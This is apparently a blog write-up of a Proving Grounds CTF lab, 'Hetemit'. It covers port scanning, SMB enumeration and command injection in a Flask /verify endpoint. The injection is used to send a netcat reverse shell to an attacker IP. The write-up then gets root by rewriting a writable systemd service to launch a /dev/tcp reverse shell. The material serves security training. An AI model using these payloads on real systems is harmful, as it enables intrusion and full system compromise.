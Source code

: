 ```yaml
---
title: "Proving grounds Practice: Hetemit"
layout: post
date: 2024-03-27 02:00
categories: writeup
---
```


Proving grounds Practice - Hetemit CTF writeup.

# NMAP

```text
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
```

## 21/tcp    open  ftp         vsftpd 3.0.3

anonymous login successfull
nothing...

## 139/tcp   open  netbios-ssn Samba smbd 4.6.2
## 445/tcp   open  netbios-ssn Samba smbd 4.6.2

```sh
naveenj@hackerspace:[06:54]~/proving_grounds/Hetemit$ smbclient -L //192.168.201.117/ -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	Cmeeks          Disk      cmeeks Files
	IPC$            IPC       IPC Service (Samba 4.11.2)
Reconnecting with SMB1 for workgroup listing.

smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

## 50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)

- http://192.168.201.117:50000/verify

```sh
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=4*4" http://192.168.201.117:50000/verify
16
```
Vulnerable to command injection

```sh
#inject reverse shell
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=os.system('nc -e /bin/bash 192.168.45.218 80')" http://192.168.201.117:50000/verify
# netcat listening
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 50652
which python
id
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")' 
[cmeeks@hetemit restjson_hetemit]$ 
```

Initial foothold obtained.

## Privilege Escalation

### Linpeas Enumeration
```sh
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/cmeeks/.rvm/gems/ruby-2.6.3/bin:/home/cmeeks/.rvm/gems/ruby-2.6.3@global/bin:/home/cmeeks/.rvm/rubies/ruby-2.6.3/bin:/home/cmeeks/.local/bin:/home/cmeeks/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/home/cmeeks/.rvm/bin:/home/cmeeks/.rvm/bin

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/pythonapp.service
/etc/systemd/system/multi-user.target.wants/pythonapp.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/railsapp.service could be executing some relative path
/etc/systemd/system/pythonapp.service

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff

/usr/sbin/suexec = cap_setgid,cap_setuid+ep

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /etc/systemd/system/pythonapp.service
```

### Exploitation

Writing shell to file `/etc/systemd/system/pythonapp.service`.

**Original content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**Modified Content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/restjson_hetemit/run.sh #add reverse shell in the bash script
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**run.sh**

```sh
#!bin/bash

bash -c 'sh -i >& /dev/tcp/192.168.45.218/22 0>&1'
```
<br>

```sh
naveenj@hackerspace:[07:28]~/proving_grounds/Hetemit$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 39016
sh: cannot set terminal process group (989): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4# 
```

**Root Obtained**

## References

* https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740
* https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).